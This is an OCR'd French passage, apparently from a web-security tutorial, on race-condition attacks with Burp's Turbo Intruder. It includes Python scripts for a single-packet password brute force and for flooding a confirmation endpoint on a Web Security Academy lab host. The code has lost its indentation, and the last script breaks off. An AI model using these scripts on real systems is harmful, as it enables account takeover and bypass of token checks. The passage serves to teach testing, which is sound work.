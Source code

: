 #### Gestion du Verrouillage Basé sur la Session

Des frameworks comme le gestionnaire de session de PHP sérialisent les requêtes par session, obscurcissant potentiellement les vulnérabilités. L'utilisation de différents jetons de session pour chaque requête peut contourner ce problème.

#### Surmonter les Limites de Taux ou de Ressources

Si le réchauffement de la connexion est inefficace, déclencher intentionnellement les délais de limite de taux ou de ressources des serveurs web par un flot de requêtes fictives pourrait faciliter l'attaque à paquet unique en induisant un délai côté serveur propice aux conditions de course.

## Exemples d'Attaque

- **Tubo Intruder - attaque à paquet unique HTTP2 (1 point de terminaison)** : Vous pouvez envoyer la requête à **Turbo intruder** (`Extensions` -> `Turbo Intruder` -> `Send to Turbo Intruder`), vous pouvez changer dans la requête la valeur que vous souhaitez forcer pour **`%s`** comme dans `csrf=Bn9VQB8OyefIs3ShR2fPESR0FzzulI1d&username=carlos&password=%s` et ensuite sélectionner le **`examples/race-single-packer-attack.py`** dans le menu déroulant :

<figure><img src="../images/image (57).png" alt=""><figcaption></figcaption></figure>

Si vous allez **envoyer différentes valeurs**, vous pourriez modifier le code avec celui-ci qui utilise une liste de mots depuis le presse-papiers :
```python
passwords = wordlists.clipboard
for password in passwords:
engine.queue(target.req, password, gate='race1')
```
> [!WARNING]
> Si le web ne prend pas en charge HTTP2 (uniquement HTTP1.1), utilisez `Engine.THREADED` ou `Engine.BURP` au lieu de `Engine.BURP2`.

- **Tubo Intruder - attaque à paquet unique HTTP2 (Plusieurs points de terminaison)** : Dans le cas où vous devez envoyer une requête à 1 point de terminaison puis plusieurs à d'autres points de terminaison pour déclencher le RCE, vous pouvez modifier le script `race-single-packet-attack.py` avec quelque chose comme :
```python
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=1,
engine=Engine.BURP2
)

# Hardcode the second request for the RC
confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: 0a9c00370490e77e837419c4005900d0.web-security-academy.net
Cookie: phpsessionid=MpDEOYRvaNT1OAm0OtAsmLZ91iDfISLU
Content-Length: 0

'''

# For each attempt (20 in total) send 50 confirmation requests.
for attempt in range(20):
currentAttempt = str(attempt)
username = 'aUser' + currentAttempt

# queue a single registration request
engine.queue(target.req, username, gate=currentAttempt)

# queue 50 confirmation requests - note that this will probably sent in two separate packets
for i in range(50):
engine.queue(confirmationReq, gate=currentAttempt)

# send all the queued requests for this attempt
```